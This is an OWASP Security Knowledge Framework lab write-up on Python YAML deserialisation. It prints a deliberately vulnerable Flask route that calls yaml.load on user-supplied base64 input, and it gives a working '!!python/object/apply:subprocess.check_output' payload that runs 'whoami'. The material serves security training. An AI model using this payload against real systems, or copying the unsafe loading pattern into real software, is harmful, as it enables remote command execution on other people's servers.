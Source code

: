 # KBID 271 - Deserialisation Yaml

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ContraHack!](../../.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

This application is using a yaml serialised object to display the content in the HTML. As you can see below, the default base64 encoded string is loaded as part of the URL.

![](../../.gitbook/assets/DES-Yaml1_2.png)

By Base64 decoding you can see it uses a key value pair -> foo : value

![](../../.gitbook/assets/DES-Yaml1_3.png)

Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the Base64 encoded string to be processed by the application and use YAML to parse parse the key value to display the content in the application as shown below.

![](../../.gitbook/assets/DES-Yaml1_1.png)

In the code example the _input_ query string parameter is used to read the input value but as you can see this is under the users control. Instead of just sending the intended text over the request, a potential attacker could abuse this function to also supply his own crafted yaml that the attacker controls.

```python
@app.route("/information/<input>", methods=['GET'])
def deserialization(input):
    try:
            if not input:
                return render_template("information/index.html")
            yaml_file = base64.b64decode(input)
            content = yaml.load(yaml_file)
    except:
            content = "The application was unable to  to deserialize the object!"
    return render_template("index.html", content = content['yaml'])
```

## Exploitation

### Step 1

A potential attacker can now tamper the Base64 encoded yaml parameter that will be parsed by the application.

Let's try to craft or own yaml object and check whether the application will accept it or not.

```yaml
yaml: woop woop
```

Encode it in Base64 and put it in place the original yaml object.

```
eWFtbDogd29vcCB3b29w
```

![](../../.gitbook/assets/DES-Yaml1_4.png)

As you can see our yaml object was accepted and parsed by the application.

When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
yaml: !!python/object/apply:subprocess.check_output ["whoami"]
```

Base64:

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnd2hvYW1pJ10=
```

Now when we submit the new yaml object we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

![](../../.gitbook/assets/DES-Yaml1_5.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization_Cheat_Sheet#Python" %}
